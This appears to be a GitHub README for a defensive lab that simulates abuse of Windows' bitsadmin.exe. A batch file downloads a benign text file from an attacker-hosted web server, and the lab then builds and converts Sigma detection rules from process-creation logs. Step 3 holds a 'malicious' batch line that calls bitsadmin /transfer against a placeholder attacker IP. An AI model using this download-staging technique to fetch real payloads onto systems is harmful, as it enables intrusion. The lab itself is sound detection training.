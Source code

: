 # ⚙️ LOLBAS Lab: bitsadmin.exe Payload Simulation & Detection

## 🖥️ Lab Setup
- **Victim Machine**: Windows 10 Pro (VM)  
- **Attacker Host**: Windows 10 Pro (Host)  

**Tools Used**:
- `bitsadmin.exe` (Windows built-in binary)  
- `calc.exe` (benign process for visibility)  
- `hello.txt` (benign payload)  
- `simulate_initial_access.bat` (batch file)  
- Sigma CLI  

---

## 🔹 Step 1: Create a Benign Payload (Attacker Host)

```powershell
echo "Hello, LOLBAS Test" > C:\inetpub\wwwroot\hello.txt

````
## 🔹 Step 2: Host the File

Start the web server:
```powershell
Start-Service W3SVC
```
Verify in browser:
http://<attacker-ip>/hello.txt

## 🔹 Step 3: Create Malicious Batch File

On the victim VM, create a file simulate_initial_access.bat:

@echo off
start calc.exe
bitsadmin /transfer myDownloadJob /download /priority normal http://<attacker-ip>/hello.txt %USERPROFILE%\Downloads\hello.txt


📌 This script:

Opens Calculator (benign distraction).

Uses bitsadmin.exe to download hello.txt into Downloads.

## 🔹 Step 4: Execute the Batch File

Run on the victim VM:

simulate_initial_access.bat


✅ Calculator opens
✅ hello.txt is downloaded into C:\Users\<user>\Downloads\

## 🔹 Step 5: Verify the File Download
```powershell
cd %USERPROFILE%\Downloads
dir hello.txt
```

## 🔹 Step 6: Collect Detection Logs

Use PowerShell to extract process creation events (4688):
```powershell

Get-WinEvent -LogName Security | Where-Object { $_.Id -eq 4688 } | Format-List TimeCreated, Message
```
Key Logs Observed:
cmd.exe launched

bitsadmin.exe executed with /transfer

powershell.exe (in related tests)

## 🔹 Step 7: Write Sigma Rules

Three Sigma detection rules were created:

win_bitsadmin_download.yml

win_powershell_iwr_from_cmd.yml

win_powershell_network_download.yml

Example: win_bitsadmin_download.yml

## 🔹 Step 8: Validate Sigma Rules

Install sigmatools:

pip install sigmatools


Validate a Sigma rule:

sigmac -t windows-audit win_bitsadmin_download.yml

## 🔹 Step 9: Convert Rules to JSON (Azure Sentinel)

Generate deployable Sentinel rules:

```powershell
sigmac -t sentinel-rule win_bitsadmin_download.yml > win_bitsadmin_download.json
sigmac -t sentinel-rule win_powershell_iwr_from_cmd.yml > win_powershell_iwr_from_cmd.json
sigmac -t sentinel-rule win_powershell_network_download.yml > win_powershell_network_download.json
```
## 🔹 Step 10: (Optional) Convert for Splunk / Sysmon

For Splunk:
```powershell
sigmac -t splunk win_bitsadmin_download.yml
```

For Sysmon:
```powershell
sigmac -t sysmon win_powershell_network_download.yml
```

## 📊 Results

Attack Simulated: .bat file abused bitsadmin.exe to download a benign payload.

Detection Evidence: Windows Event ID 4688 logs (process creation).

Sigma Rules: Created for bitsadmin.exe and PowerShell download activity.

Converted Outputs: JSON rules for Sentinel, SPL queries for Splunk, Sysmon-compatible rules.

## ✅ Conclusion

This lab demonstrates:

How LOLBAS binaries (like bitsadmin.exe) can be abused to stage payloads.

How to detect this activity via Windows Security logs.

How to use Sigma rules and convert them for SIEMs (Azure Sentinel, Splunk, Sysmon).
